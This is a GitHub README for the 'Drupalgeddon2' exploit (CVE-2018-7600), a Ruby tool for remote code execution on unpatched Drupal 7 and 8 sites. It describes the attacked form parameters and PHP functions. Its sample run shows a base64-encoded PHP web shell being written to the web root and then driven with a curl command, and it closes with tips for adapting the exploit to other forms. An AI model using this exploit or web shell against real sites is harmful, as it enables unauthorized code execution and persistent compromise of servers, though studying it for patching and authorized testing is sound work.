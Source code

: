 # CVE-2018-7600 | Drupal < 7.58 / 8.x < 8.3.9 / 8.4.x < 8.4.6 / 8.5.x < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 ~ https://github.com/dreadlocked/Drupalgeddon2/](https://github.com/dreadlocked/Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

Authors:
- [Hans Topo](https://github.com/dreadlocked)  _([@\_dreadlocked](https://twitter.com/_dreadlocked))_
- [g0tmi1k](https://blog.g0tmi1k.com/) _([@g0tmi1k](https://twitter.com/g0tmi1k))_

Drupalggedon2 supports:
- **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function.
- **< 8.3.9 / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` AJAX & `#post_render` parameter, using PHP's `exec` function.

This method was chosen, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ _([More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708))_.

- - -

#### Usage:

```bash
$ ruby drupalgeddon2.rb http://localhost/drupal/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal/CHANGELOG.txt (404)
[+] Found  : http://localhost/drupal/core/CHANGELOG.txt (200)
[+] Drupal!: 8.4.5
--------------------------------------------------------------------------------
[*] PHP cmd: exec
[*] Payload: echo ZACCXCDP
[+] Result : ZACCXCDP<span class="ajax-new-content"></span>
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] PHP cmd: exec
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }<span class="ajax-new-content"></span>
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal/s.php' -d 'c=whoami'
ubuntu140045x64-drupal> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ubuntu140045x64-drupal>
ubuntu140045x64-drupal> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>
```

For proxy support _(e.g. Burp)_, edit the file, replacing with your values. Example:

```ruby
proxy_addr = '192.168.0.130'
proxy_port = 8080
```


- - -


#### Links:

- **Write up & Research** ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- Drupal Advisory ~ https://www.drupal.org/sa-core-2018-002
- Original Python PoC ~ https://github.com/a2u/CVE-2018-7600
- cURL commands ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
- CVE ~ https://nvd.nist.gov/vuln/detail/CVE-2018-7600


- - -


#### Troubleshooting:
- Sometimes, websites may redirect to another path where Drupal exists (such as 30x responses). Solution: make sure you are introducing the correct Drupal path.
- If `/user/password` form is disabled, maybe you should find another form, but remember to change the exploit a bit (`form_id` parameter will change depending on the form used to exploit the vulnerability).
